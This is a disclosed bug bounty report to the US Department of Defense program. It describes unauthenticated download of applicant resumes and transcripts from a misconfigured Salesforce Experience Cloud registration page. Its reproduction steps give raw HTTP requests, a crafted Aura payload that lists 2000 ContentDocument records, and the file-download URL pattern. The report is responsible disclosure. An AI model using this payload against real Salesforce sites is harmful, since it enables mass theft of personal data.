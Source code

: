 # Sensitive data exposure: █████████ candidate resumes/CVs available to download with no authentication through BAC/IDOR/Improper Salesforce config

## Report Details
- **Report ID**: 2623715
- **URL**: https://hackerone.com/reports/2623715
- **State**: Closed
- **Severity**: high
- **Submitted**: 2024-07-25T07:46:39.889Z
- **Disclosed**: 2024-12-18T19:48:45.301Z

## Reporter
- **Username**: oxylis
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Greetings DoD team,

I located a major example of sensitive data exposure through a BAC/incorrectly configured Salesforce instance.

The https://█████████.experience.███/s/registration page allows the attacker to download any attachment (including thousands of resumes full of PII, university transcripts, and other sensitive files) submitted by other users through the Registration form. Potentially this might also affect files added by the ███████ team manually.

At least several files are available (possibly many more); no authentication is required for this attack.

## Impact

Large-scale data breach/candidate PII leak.

## System Host(s)
███████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Steps to reproduce:

1. In browser, navigate to: https://███████.experience.██████/s/registration
2. Within Burp, find any POST request to the /aura endpoint, such as below. Send to Repeater:

```
POST /s/sfsites/aura?r=1&aura.ApexAction.execute=1 HTTP/1.1
Host: ███████.experience.██████████
Cookie: ████████; BrowserId=ztAOY0pSEe-h9wmd5-lRkA; pctrk=ccfad8a9-dcf3-4ab7-9a5f-f623cdbcd7b7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://████.experience.███████/s/registration
X-Sfdc-Lds-Endpoints: ApexActionController.execute:RegistrationCtrl.getFileUploadRecord
X-Sfdc-Page-Scope-Id: 8f4f7425-7484-4329-b975-98c3bb386cfb
X-Sfdc-Request-Id: 326100000096dd5c96
X-Sfdc-Page-Cache: eec50ac11c34f2f4
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Content-Length: 1555
Origin: https://███.experience.████
Dnt: 1
Sec-Gpc: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

message=%7B%22actions%22%3A%5B%7B%22id%22%3A%2298%3Ba%22%2C%22descriptor%22%3A%22aura%3A%2F%2FApexActionController%2FACTION%24execute%22%2C%22callingDescriptor%22%3A%22UNKNOWN%22%2C%22params%22%3A%7B%22namespace%22%3A%22%22%2C%22classname%22%3A%22RegistrationCtrl%22%2C%22method%22%3A%22getFileUploadRecord%22%2C%22cacheable%22%3Afalse%2C%22isContinuation%22%3Afalse%7D%7D%5D%7D&aura.context=%7B%22mode%22%3A%22PROD%22%2C%22fwuid%22%3A%22WFIwUmVJdmtIRnI3MTFpX0d6c1VwQWhZX25NdHFVdGpDN3BnWlROY1ZGT3cyNTAuOC4zLTYuNC41%22%2C%22app%22%3A%22siteforce%3AcommunityApp%22%2C%22loaded%22%3A%7B%22APPLICATION%40markup%3A%2F%2Fsiteforce%3AcommunityApp%22%3A%224aRXFMeJBEoyEhCBFKHHSA%22%2C%22COMPONENT%40markup%3A%2F%2Fforce%3AinputField%22%3A%22MIteSSSIxKghQgDJWuI57g%22%2C%22COMPONENT%40markup%3A%2F%2Fforce%3AoutputField%22%3A%224kDixPuHcKU99oJ3nGrYwA%22%2C%22COMPONENT%40markup%3A%2F%2FforceCommunity%3AfeedPublisher%22%3A%22eLdMCU5TIIj5fTlBFHu9Cg%22%2C%22COMPONENT%40markup%3A%2F%2FforceCommunity%3AforceCommunityFeed%22%3A%22T_JqvrMTIi87V9CzYeCoyQ%22%2C%22COMPONENT%40markup%3A%2F%2FforceCommunity%3AobjectHome%22%3A%22XokhHoGbTrHekjpxgyja7A%22%2C%22COMPONENT%40markup%3A%2F%2FforceCommunity%3ArecordDetail%22%3A%22DhqIX7zfLrAKT30H1SrJBQ%22%2C%22COMPONENT%40markup%3A%2F%2FforceCommunity%3ArelatedRecords%22%3A%22QKutWURpjg1wirSmIlNoOQ%22%2C%22COMPONENT%40markup%3A%2F%2Finstrumentation%3Ao11ySecondaryLoader%22%3A%221JitVv-ZC5qlK6HkuofJqQ%22%7D%2C%22dn%22%3A%5B%5D%2C%22globals%22%3A%7B%7D%2C%22uad%22%3Afalse%7D&aura.pageURI=%2Fs%2Fregistration&aura.token=null
```

3. Modify the request as follows. This is a specifically crafted Aura payload that returns 2000 ContentDocument records (uploaded files). Send to Repeater and issue request:

```
POST /s/sfsites/aura?r=1&aura.ApexAction.execute=1 HTTP/1.1
Host: ███████.experience.██████
Cookie: ██████; BrowserId=ztAOY0pSEe-h9wmd5-lRkA; pctrk=ccfad8a9-dcf3-4ab7-9a5f-f623cdbcd7b7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://██████.experience.███/s/registration
X-Sfdc-Lds-Endpoints: ApexActionController.execute:RegistrationCtrl.getFileUploadRecord
X-Sfdc-Page-Scope-Id: 8f4f7425-7484-4329-b975-98c3bb386cfb
X-Sfdc-Request-Id: 326100000096dd5c96
X-Sfdc-Page-Cache: eec50ac11c34f2f4
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Content-Length: 1554
Origin: https://██████.experience.██████████
Dnt: 1
Sec-Gpc: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

message={"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController/ACTION$getItems","callingDescriptor":"UNKNOWN","params":{"entityNameOrId":"ContentDocument","layoutType":"FULL","pageSize":2000,"currentPage":0,"useTimeout":false,"getCount":false,"enableRowActions":false}}]}&aura.context=%7B%22mode%22%3A%22PROD%22%2C%22fwuid%22%3A%22WFIwUmVJdmtIRnI3MTFpX0d6c1VwQWhZX25NdHFVdGpDN3BnWlROY1ZGT3cyNTAuOC4zLTYuNC41%22%2C%22app%22%3A%22siteforce%3AcommunityApp%22%2C%22loaded%22%3A%7B%22APPLICATION%40markup%3A%2F%2Fsiteforce%3AcommunityApp%22%3A%224aRXFMeJBEoyEhCBFKHHSA%22%2C%22COMPONENT%40markup%3A%2F%2Fforce%3AinputField%22%3A%22MIteSSSIxKghQgDJWuI57g%22%2C%22COMPONENT%40markup%3A%2F%2Fforce%3AoutputField%22%3A%224kDixPuHcKU99oJ3nGrYwA%22%2C%22COMPONENT%40markup%3A%2F%2FforceCommunity%3AfeedPublisher%22%3A%22eLdMCU5TIIj5fTlBFHu9Cg%22%2C%22COMPONENT%40markup%3A%2F%2FforceCommunity%3AforceCommunityFeed%22%3A%22T_JqvrMTIi87V9CzYeCoyQ%22%2C%22COMPONENT%40markup%3A%2F%2FforceCommunity%3AobjectHome%22%3A%22XokhHoGbTrHekjpxgyja7A%22%2C%22COMPONENT%40markup%3A%2F%2FforceCommunity%3ArecordDetail%22%3A%22DhqIX7zfLrAKT30H1SrJBQ%22%2C%22COMPONENT%40markup%3A%2F%2FforceCommunity%3ArelatedRecords%22%3A%22QKutWURpjg1wirSmIlNoOQ%22%2C%22COMPONENT%40markup%3A%2F%2Finstrumentation%3Ao11ySecondaryLoader%22%3A%221JitVv-ZC5qlK6HkuofJqQ%22%7D%2C%22dn%22%3A%5B%5D%2C%22globals%22%3A%7B%7D%2C%22uad%22%3Afalse%7D&aura.pageURI=%2Fs%2Fregistration&aura.token=null
```

4. Extract one of the IDs from the server response, e.g. 069830000028KJdAAM

██████████

5. Insert this ID into URL as below. This will download the attachment (confidential candidate resume) directly. All other files can be accessed using the same method.

https://██████████.experience.██████/sfsites/c/sfc/servlet.shepherd/document/download/069830000028KJdAAM

# Hope you find this report helpful - look forward to your feedback.

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
